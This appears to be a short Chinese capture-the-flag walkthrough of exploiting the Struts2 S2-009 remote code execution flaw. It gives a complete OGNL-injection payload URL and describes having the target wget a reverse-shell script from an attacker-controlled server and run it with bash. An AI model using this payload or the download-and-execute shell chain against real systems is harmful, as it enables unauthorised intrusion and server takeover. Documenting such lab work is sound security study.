


Struts2 远程代码执行 (s2-009)

有cve，直接github找利用脚本，这里github上扫描工具打不成功，于是查询exp，手动打。有了打s2-061的经验，于是，公网搭建http服务器，写入反弹shell脚本，命令执行让目标下载执行。

payload：

/ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true

这边先执行wget http://xxx.xxx.xxx.xxx/2.sh

然后执行 bash 2.sh

成功拿到shell 和flag